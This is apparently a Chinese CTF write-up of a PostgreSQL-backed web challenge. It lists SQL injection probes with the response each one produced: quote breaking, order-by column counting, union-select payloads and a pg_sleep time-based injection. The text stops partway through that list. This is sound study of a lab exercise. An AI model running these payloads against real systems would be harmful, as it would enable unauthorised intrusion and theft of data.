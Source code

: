 ![image-20210201185004667](cqb2021/image-20210201185004667.png)

点击任何都是JavaScript脚本` javascript:alert('投票成功,恭喜您获得奶奶一个') `，底部发现了提示

` <!--<a href="?f=1">我选择按下F进入TK</a>--> `

于是访问`./?f=1`没有变化，猜测SSRF或SQL注入，但是没有其他提示。

访问`./?f=1'`发现有弹窗

![image-20210201185510275](cqb2021/image-20210201185510275.png)

fuzz一波，发现`#`和`%23`都会一直弹窗，而使用`--`注释即`?f=1' --`却不会弹窗，搜索一波发现是 PostgreSQL ，猜测**语法错误**或者**报错**会有弹窗

甚至搜到了原题，赛后向 [@HA1C9ON](https://ha1c9on.top/) 大佬请教得知，当时比赛的WP是有错误的，后续会道来。

测试一下发现`./?f=`

> - `gyy`，没有警告
> - `gyy'`，警告
> - `gyy' and 1=0 --`，没有警告
> - `gyy' and 1=1 --`，没有警告
> - `gyy' order by 1 --`，没有警告
> - `gyy' order by 2 --`，没有警告
> - `gyy' order by 3 --`， 警告
> - `gyy' union select 1,2 --`， 警告
> - `gyy' union select 1,'2' --`，没有警告
> - `gyy' union select 1,pg_sleep(10) --`， 警告
> - `gyy' union select 1,cast(pg_sleep(10) as text) --`，没有警告（有延迟！）
> - `gyy' union select 1,'2' from pg_database --`，没有警告
> - `gyy' union select 1,'2' from gyy --`， 警告
> - `gyy' union select 1,chr(65) --`，没有警告
